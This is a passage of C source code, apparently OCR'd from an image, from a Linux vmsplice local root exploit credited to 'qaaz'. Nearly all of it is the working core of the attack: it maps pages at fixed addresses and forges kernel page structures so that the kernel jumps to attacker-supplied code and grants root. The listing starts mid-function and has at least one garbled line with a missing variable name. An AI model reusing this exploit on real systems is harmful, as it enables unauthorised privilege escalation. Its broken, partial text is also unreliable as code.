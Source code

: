 	uid = getuid();
	gid = getgid();
	setresuid(uid, uid, uid);
	setresgid(gid, gid, gid);

	printf("-----------------------------------\n");
	printf(" Linux vmsplice Local Root Exploit\n");
	printf(" By qaaz\n");
 = mmap(pages[0], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);

	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[0]);
	printf("[+] page: 0x%lx\n", pages[1]);

	pages[0]->flags    = 1 << PG_compound;
	pages[0]->private  = (unsigned long) pages[0];
	pages[0]->count    = 1;
	pages[1]->lru.next = (long) kernel_code;

	/*****/
	pages[2] = *(void **) pages[0];
	pages[3] = pages[2] + 1;

	map_size = PAGE_SIZE;
	map_addr = mmap(pages[2], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);

	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[2]);
	printf("[+] page: 0x%lx\n", pages[3]);

	pages[2]->flags    = 1 << PG_compound;
	pages[2]->private  = (unsigned long) pages[2];
	pages[2]->count    = 1;
	pages[3]->lru.next = (long) kernel_code;

	/*****/
	pages[4] = *(void **) &(int[2]){PAGE_SIZE,0};
	map_size = PAGE_SIZE;
	map_addr = mmap(pages[4], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);
	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[4]);

	/*****/
	map_size = (PIPE_BUFFERS * 3 + 2) * PAGE_SIZE;
	map_addr = mmap(NULL, map_size, PROT_READ | PROT_WRITE,
	                MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);
